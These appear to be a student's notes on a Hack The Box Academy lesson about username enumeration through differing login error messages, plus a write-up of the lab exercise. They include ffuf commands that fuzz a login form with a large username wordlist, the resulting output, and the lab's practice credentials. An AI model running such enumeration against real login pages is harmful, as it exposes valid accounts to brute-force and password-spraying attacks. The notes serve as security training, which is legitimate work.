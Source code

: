```yaml
---
sticker: emoji//1faaa
---
```

User enumeration vulnerabilities arise when a web application responds differently to registered/valid and invalid inputs for authentication endpoints. User enumeration vulnerabilities frequently occur in functions based on the user's username, such as user login, user registration, and password reset.

Web developers frequently overlook user enumeration vectors, assuming that information such as usernames is not confidential. However, usernames can be considered confidential if they are the primary identifier required for authentication in web applications. Moreover, users tend to use the same username across various services other than web applications, including FTP, RDP, and SSH. Since many web applications allow us to identify usernames, we can enumerate valid usernames and use them for further attacks on authentication. This is often possible because web applications typically consider a username or user's email address as the primary identifier of users.

---

## User Enumeration Theory

Protection against username enumeration attacks can have an impact on user experience. A web application revealing whether a username exists may help a legitimate user identify that they failed to type their username correctly. Still, the same applies to an attacker trying to determine valid usernames. Even well-known and mature applications, like WordPress, allow for user enumeration by default. For instance, if we attempt to login to WordPress with an invalid username, we get the following error message:

   

![](https://academy.hackthebox.com/storage/modules/269/bf/01-wordpress_wrong_username.png)

On the other hand, a valid username results in a different error message:

   

![](https://academy.hackthebox.com/storage/modules/269/bf/02-wordpress_wrong_password.png)

As we can see, user enumeration can be a security risk that a web application deliberately accepts to provide a service. As another example, consider a chat application enabling users to chat with others. This application might provide a functionality to search for users by their username. While this functionality can be used to enumerate all users on the platform, it is also essential to the service provided by the web application. As such, user enumeration is not always a security vulnerability. Nevertheless, it should be avoided if possible as a defense-in-depth measure. For instance, in our example web application user enumeration can be avoided by not using the username during login but an email address instead.

---

## Enumerating Users via Differing Error Messages

To obtain a list of valid users, an attacker typically requires a wordlist of usernames to test. Usernames are often far less complicated than passwords. They rarely contain special characters when they are not email addresses. A list of common users allows an attacker to narrow the scope of a brute-force attack or carry out targeted attacks (leveraging OSINT) against support employees or users. Also, a common password could be easily sprayed against valid accounts, often leading to a successful account compromise. Further ways of harvesting usernames are crawling a web application or using public information, such as company profiles on social networks. A good starting point is the wordlist collection [SecLists](https://github.com/danielmiessler/SecLists/tree/master/Usernames). 

When we attempt to log in to the lab with an invalid username such as `abc`, we can see the following error message:

   

![](https://academy.hackthebox.com/storage/modules/269/bf/userenum_1.png)

On the other hand, when we attempt to log in with a registered user such as `htb-stdnt` and an invalid password, we can see a different error:

   

![](https://academy.hackthebox.com/storage/modules/269/bf/userenum_2.png)

Let us exploit this difference in error messages returned and use SecLists's wordlist `xato-net-10-million-usernames.txt` to enumerate valid users with `ffuf`. We can specify the wordlist with the `-w` parameter, the POST data with the `-d` parameter, and the keyword `FUZZ` in the username to fuzz valid users. Finally, we can filter out invalid users by removing responses containing the string `Unknown user`:

```shell-session
smoothment@htb[/htb]$ ffuf -w /opt/useful/seclists/Usernames/xato-net-10-million-usernames.txt -u http://172.17.0.2/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=FUZZ&password=invalid" -fr "Unknown user"

<SNIP>

[Status: 200, Size: 3271, Words: 754, Lines: 103, Duration: 310ms]
    * FUZZ: consuelo
```

We successfully identified the valid username `consuelo`. We could now proceed by attempting to brute-force the user's password, as we will discuss in the following section.

---

## User Enumeration via Side-Channel Attacks

While differences in the web application's response are the simplest and most obvious way to enumerate valid usernames, we might also be able to enumerate valid usernames via side channels. Side-channel attacks do not directly target the web application's response but rather extra information that can be obtained or inferred from the response. An example of a side channel is the response timing, i.e., the time it takes for the web application's response to reach us. Suppose a web application does database lookups only for valid usernames. In that case, we might be able to measure a difference in the response time and enumerate valid usernames this way, even if the response is the same. User enumeration based on response timing is covered in the [Whitebox Attacks](https://academy.hackthebox.com/module/details/205) module.

# Question
---

![[Pasted image 20250214143442.png]]

We need to authenticate with the following credentials:

```ad-note
`htb-stdnt`:`Academy_student!`
```

Before doing that, let's fire up burp and check what happens if we enter a nonexistent user:

![[Pasted image 20250214143851.png]]

We get `Unknown User`, which would be the error message in this case, how about if we try to authenticate with the provided username but a wrong password:

![[Pasted image 20250214143942.png]]

Now we are getting something different, we get `Invalid Credentials`.

We can fuzz the usernames using `ffuf`, let's do the following command:

```
ffuf -w /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -u http://IP:PORT/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=FUZZ&password=test" -fr "Unknown user" -ic -c -t 200
```

After a while, we get the following:

```
ffuf -w /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -u http://83.136.248.78:36443/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=FUZZ&password=test" -fr "Unknown user" -ic -c -t 200

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://83.136.248.78:36443/index.php
 :: Wordlist         : FUZZ: /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=FUZZ&password=test
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Regexp: Unknown user
________________________________________________

cookster                [Status: 200, Size: 3271, Words: 754, Lines: 103, Duration: 1311ms]
```

User is:

```
cookster
```

